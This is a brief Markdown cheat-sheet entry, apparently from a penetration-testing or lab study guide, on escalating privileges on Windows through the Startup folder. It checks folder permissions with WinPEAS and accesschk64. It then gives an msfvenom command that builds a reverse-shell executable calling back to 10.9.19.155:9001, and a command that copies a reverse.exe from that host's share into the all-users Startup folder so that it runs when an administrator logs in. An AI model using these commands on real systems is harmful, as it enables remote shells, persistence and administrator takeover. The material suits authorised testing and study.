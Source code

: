 # 5. Startup applications
## Detection 
- WinPEAS -> Section : Autorun Applications
- accesschk64.exe -wvu "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\"  
  
## Exploitation  
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.19.155 LPORT=9001 -f exe -o shell.exe  
```

```powershell
# Wait for an admin to connect
copy \\10.9.19.155\kali\reverse.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"  
```	